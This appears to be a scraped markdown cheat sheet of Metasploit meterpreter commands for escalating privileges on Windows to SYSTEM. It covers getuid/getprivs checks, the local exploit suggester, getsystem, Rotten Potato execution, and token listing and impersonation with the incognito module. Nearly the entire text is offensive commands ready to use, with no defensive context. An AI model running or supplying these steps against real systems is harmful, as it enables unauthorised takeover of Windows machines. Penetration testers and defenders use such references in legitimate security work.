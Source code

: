 # Metasploit

## 01 - Detect

```
meterpreter > getuid

meterpreter > getprivs
```

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

## 02 - Exploit

### 2.1 - Getsystem

```
meterpreter > getsystem -t 5
```

### 2.2 - Manual

If service is not running as SYSTEM.

```
meterpreter > execute -f rottenpotato.exe -Hc
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\System"
 ```

If service is running as Administrator.

```
meterpreter > use incognito
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\System"
```